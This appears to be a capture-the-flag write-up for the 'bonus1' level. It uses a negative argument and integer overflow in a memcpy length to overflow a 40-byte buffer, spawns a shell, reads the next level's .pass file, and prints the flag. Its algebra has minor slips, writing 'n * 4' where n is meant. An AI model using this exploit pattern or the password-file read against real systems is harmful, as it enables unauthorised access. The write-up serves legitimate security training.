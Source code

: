 # bonus1

The executable does the following :

- Sets `n = atoi(argv[1]`
- Verifies that `n < 10`
- Copies `n * 4` characters of `argv[2]` into a 40-byte buffer with `memcpy`
- If `n == 0x574f4c46`, executes `/bin/sh`

The buffer and `n` are consecutive, so we could easily set `n` by overflowing with the `memcpy`.

The issue is, since the buffer is 40 chars long, we'd need at least 44 bytes to overwrite `n`, but we'd be locked off by the `n < 10`. How can we bypass it ?

## **The trick**

We can use negative numbers to pass the check, and then take advantage of int overflows in `n * 4` !

For our `memcpy`, we'd like `n * 4 == 44`.

We can use the following logic : if you add `UNSIGNED_INT_MAX+1` to our number, it'll stay unchanged. So we have :

```
    n * 4 = 44
<=> n * 4 + UNSIGNED_INT_MAX+1 = 44
<=> n * 4 = - UNSIGNED_INT_MAX+1 + 44
<=> n * 4 = -4294967296 + 44
<=> n * 4 = -4294967252
<=> n * 4 = -1073741813
```

In C, `-1073741813 * 4` equals `44`.

## **The command**

Now we just need to set `argv[2]` to overflow into `n` ; we'll write 40 bytes of garbage followed by the value asked by the program, `0x574f4c46`.

We run :

```
./bonus1 -1073741813 $(python -c 'print("A" * 40 + "\x46\x4c\x4f\x57")')
```


## **The flag**

It works ! In the interactive shell, we run :

```
cat /home/user/bonus2/.pass
```

We get the flag for `bonus1` :

```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```